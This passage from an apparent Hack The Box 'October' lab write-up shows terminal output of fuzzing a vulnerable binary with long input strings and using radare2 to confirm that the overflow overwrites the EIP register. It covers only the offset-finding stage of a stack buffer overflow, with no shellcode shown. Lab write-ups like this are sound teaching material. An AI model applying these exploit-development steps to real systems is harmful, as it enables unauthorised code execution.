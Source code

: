 Some tests to find the size of the buffer overflow string needed:

```
┌──(user㉿kali)-[~/hackthebox/hackthebox/october/ovrflw]
└─$ ./ovrflw aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa   
                                                                                                                                
┌──(user㉿kali)-[~/hackthebox/hackthebox/october/ovrflw]
└─$ ./ovrflw aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  
zsh: segmentation fault  ./ovrflw 
                                                                                                                                
┌──(user㉿kali)-[~/hackthebox/hackthebox/october/ovrflw]
└─$ ./ovrflw aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcd

zsh: segmentation fault  ./ovrflw 
```

```
$ radare2 -d ./ovrflw  aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcd
Process with PID 4143 started...
= attach 4143 4143
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
glibc.fc_offset = 0x00148
[0xf7fd20b0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for vtables
[TOFIX: aaft can't run in debugger mode.ions (aaft)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0xf7fd20b0]> dc 
[+] SIGNAL 11 errno=0 addr=0x64636261 code=1 si_pid=1684234849 ret=0
[0x64636261]> dr 
eax = 0x00000000
ebx = 0x00000000
ecx = 0xffab1360
edx = 0xffab0278
esi = 0xf7fa9000
edi = 0xf7fa9000
esp = 0xffab0280
ebp = 0x61616161
eip = 0x64636261
eflags = 0x00010202
oeax = 0xffffffff
```
